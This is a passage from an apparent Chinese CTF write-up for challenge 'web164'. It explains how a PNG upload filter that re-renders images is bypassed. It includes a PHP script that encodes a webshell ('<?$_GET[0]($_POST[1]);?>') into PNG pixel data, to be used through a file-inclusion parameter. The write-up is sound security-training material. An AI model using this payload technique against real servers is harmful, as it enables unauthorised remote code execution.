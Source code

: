 ```php
echo json_encode($ret);
```

## web164~png二次渲染

测试了一下。

```
{"code":3,"msg":"只允许上传png格式图片"}
```

白名单验证。

找了一张测试可以成功上传png图片。

还发现

```
download.php?image=4a47a0db6e60853dedfcfdf08a5ca249.png
```

可以随意修改图片又会被检测，故做图片马。

但是一般的图片马还绕不过，应该是做了二次渲染。

所以可以上传二次渲染绕过的图片，在做文件包含即可。

生成脚本:

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

/* <?$_GET[0]($_POST[1]);?>   */

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```
